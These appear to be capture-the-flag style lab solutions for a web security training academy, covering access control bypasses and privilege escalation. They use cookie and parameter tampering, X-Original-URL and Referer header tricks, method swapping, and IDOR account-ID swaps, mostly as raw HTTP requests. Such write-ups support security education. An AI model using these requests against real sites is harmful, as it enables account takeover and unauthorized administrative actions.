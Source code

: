 # Access control vulnerabilities and privilege escalation

## Vertical privilege escalation

### Unprotected admin functionality
See `/robots.txt`:
```
User-agent: *
Disallow: /administrator-panel
```
Go to `/administrator-panel` and delete `carlos`


### Unprotected admin functionality with unpredictable URL
See page source:
```javascript
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-gtn1ro');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   topLinksTag.append(' |');
}
```
Go to `/admin-gtn1ro` and delete `carlos`

### User role controlled by request parameter
Login, change cookie `Admin` from `false` to `true` (in Chrome Dev Tools / Application / Cookies),
reload, go to `/admin` and delete `carlos`.

### User role can be modified in user profile
Change email and add `roleid` to JSON payload:
```
POST /my-account/change-email HTTP/1.1
{
  "email": "jan.verner22@gmail.com",
  "roleid": 2
}

---

HTTP/1.1 302 Found
Location: /
Content-Type: application/json
Connection: close
Content-Length: 126

{
  "username": "wiener",
  "email": "jan.verner22@gmail.com",
  "apikey": "82Ods0VFJcVcG8mMKetdWifiyT5VonpW",
  "roleid": 2
}
```

Go to `/admin` and delete `carlos`

### URL-based access control can be circumvented
GET `/` is allowed. Server takes the URL from header `X-Original-URL`:
```
GET / HTTP/1.1
Host: ac791faa1fd9fd48804b72c000ca00ff.web-security-academy.net
...
X-Original-URL: /admin
```
Delete `carlos`:
```
POST /?username=carlos HTTP/1.1
Host: ac791faa1fd9fd48804b72c000ca00ff.web-security-academy.net
...
X-Original-URL: /admin/delete
```

### Method-based access control can be circumvented
Convert POST to GET:
```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: ac2f1f141e3530df806529d300e600eb.web-security-academy.net
Cookie: session=D5Llj1J9TOR3PU6mrFflpDpiyCAqysRX
```

## Horizontal privilege escalation

### User ID controlled by request parameter
Just change `/my-account?id=wiener` to `/my-account?id=carlos` and copy the API key.

### User ID controlled by request parameter, with unpredictable user IDs
Go to Meeting Up blog. Its author is `carlos`. Go to carlos' blog and grab the GUID from the URL
`/blogs?userId=f7336bea-3eb9-4d5b-b6f1-14923e585a21`.

Login as `wiener` and just change `/my-account?id=04918d2a-9880-4e15-8130-497e52eee7a9`
to `/my-account?id=f7336bea-3eb9-4d5b-b6f1-14923e585a21` and copy the API key.

### User ID controlled by request parameter with data leakage in redirect
Login as `wiener`, change `id` to `carlos` and grab the API key from redirect body.

## Horizontal to vertical privilege escalation

### User ID controlled by request parameter with password disclosure
Login and go to `/my-account?id=administrator`. Grab the admin's password from the page source code.

Login as `administrator` and delete `carlos`

## Insecure direct object references (IDOR)

### Insecure direct object references
Download Carlos' transcript from https://ac1e1fa91ef1ec0e8056735500d20042.web-security-academy.net/download-transcript/1.txt.

Get the password from it and login.

## Access control vulnerabilities in multi-step processes

### Multi-step process with no access control on one step
Login as `wiener`
```
POST /admin-roles HTTP/1.1
Host: ac921fa31f6f4ed680af2547005f00a4.web-security-academy.net
...
Cookie: session=8I4G196qkAVO0KK7vBAnqfJUTD9Rlt1e

username=wiener&action=upgrade&confirmed=true
```

### Referer-based access control
Login as `wiener`
```
GET /admin-roles?username=wiener&action=upgrade HTTP/1.1
Host: ac831f5d1e3ca2f4803137b200e30096.web-security-academy.net
...
Referer: https://ac831f5d1e3ca2f4803137b200e30096.web-security-academy.net/admin
Cookie: session=PwJLSvlmkXzjmWCn5BL6c9w601RH5Zzt
```
